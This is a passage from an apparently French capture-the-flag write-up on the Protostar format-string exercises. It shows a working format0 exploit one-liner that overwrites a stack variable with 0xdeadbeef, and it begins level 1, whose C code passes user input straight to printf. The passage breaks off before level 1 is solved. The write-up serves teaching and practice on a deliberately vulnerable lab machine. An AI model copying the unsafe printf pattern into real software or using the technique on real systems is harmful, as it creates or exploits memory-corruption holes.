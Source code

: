```nasm
```

Et notre buffer destination utilisé par `sprintf` est à `ebp-0x4c`. Il y a 64 octets entre notre buffer et la variable `target` :

```python
>>> 0x4c - 0xc
64
```

On va donner à `sprintf` une chaine de format qui va représenter des données sur 64 octets puis placer la valeur attendue juste derrière :

```shellsession
user@protostar:/opt/protostar/bin$ ./format0 `python -c 'import struct; print "%64x" + struct.pack("<I", 0xdeadbeef)'`
you have hit the target correctly :)
```

Ca marche. `sprintf` a utilisé le format `%64x` et a représenté sur 64 octets (via du padding) la première valeur qu'il a trouvé sur la stack (ce qu'il y a ne nous intéresse pas ici). Les 4 derniers octets ont alors écrasé la variable comme il fallait.

## Level 1

Le binaire correspond à ce code C :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Et on dispose d'un indice :

> objdump -t is your friend, and your input string lies far up the stack :)

Je peux placer un breakpoint dans la fonction `vuln` et observer où notre buffer se trouve dans la stack :
